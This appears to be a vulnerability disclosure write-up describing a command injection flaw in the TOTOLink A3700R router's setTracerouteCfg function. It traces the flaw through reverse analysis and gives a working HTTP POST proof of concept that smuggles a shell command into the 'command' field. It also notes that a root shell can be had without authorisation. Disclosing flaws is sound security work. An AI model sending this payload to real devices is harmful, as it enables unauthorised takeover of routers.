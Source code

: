# TOTOLink A3700R V9.1.2u.6134_B20201202 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=69&ids=36

### Product Information

TOTOLink A3700R V9.1.2u.6134_B20201202 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A3700R (V9.1.2u.6134_B20201202) was found to contain a command insertion vulnerability in setTracerouteCfg.This vulnerability allows an attacker to execute arbitrary commands through the "command" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

Format var into V6 using sprintf function and pass in dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"command":";ps;","num":"1","topicurl":"setTracerouteCfg"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
